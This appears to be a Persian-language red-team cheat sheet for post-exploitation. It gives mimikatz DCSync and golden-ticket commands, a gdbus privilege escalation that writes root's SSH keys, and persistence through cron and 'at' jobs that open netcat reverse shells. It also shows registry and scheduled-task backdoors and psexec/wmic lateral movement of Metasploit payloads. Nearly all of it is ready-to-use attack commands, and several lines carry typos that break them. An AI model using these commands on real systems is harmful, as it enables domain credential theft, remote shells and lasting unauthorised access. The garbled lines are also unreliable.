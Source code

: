 ### تولید Golden Ticket با mimikatz

```text
1.mimikatz # lsadump::dcsync /user:<USER>
2.mimikatz # kerberos::golden /user:<USER> /domain:</DOMAIN> /sid:<OBJECT SECURITY ID> /rce:<NTLM HASH> /id:<USER ID>
```

### ارتقا دسترسی با gdbus

```text
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys /root/.ssh/authorized_keys true
```



## دسترسی همیشگی

### برای لینوکس \(در سیستم مهاجم\)

```text
crontab -e : set for every 10 min
0-59/10  nc ip 777 -e /bin/bash
```

### برای ویندوز \(شروع task scheduler\)

```text
sc config schedule start= auto
net start schedule
at 13:30 ""C:\nc.exe ip 777 -e cmd.exe""
```

### اجرای backdoor به همراه بایپس فایروال ویندوز

```text
1. REG add HKEY CURRENT USER\Software\Microsoft\Windows\CurrentVersion\Run
   /v firewall 7t REG SZ /d "c:\windows\system32\backdoor.exe" /f
2. at 19:00 /every:M,T,W,Th,F cmd /c start "%USERPROFILE%\backdoor.exe"
3. SCHTASKS /Create /RU "SYSTEt1" /SC MINUTE /t10 45 /TN FIREWALL /TR
   "%USERPROFILE%\backdoor.exe" /ED 12/12/2012
```

### توسعه پیلود در smb یا webdav

```text
Via SMB:
1. From the compromised machine, share the payload folder
2. Set sharing to 'Everyone'
3. Use psexec or wmic command to remotely execute payload

Via WebDAV:
1. Launch Metasploit 'webdav file server' module
2. Set following options:
    localexe= true
    localfile= payload
    localroot= payload directory
    disablePayloadHandler=true
3. Use psexec or wmic command to remotely execute payload
    psexec \\ remote ip /u domain\compromised_user /p password "\\payload
    ip \test\msf.exe"

OR -
wmic /node: remote ip /user:domain\compromised user //password:password
process call create "\ \ payload ip \test\msf.exe"
```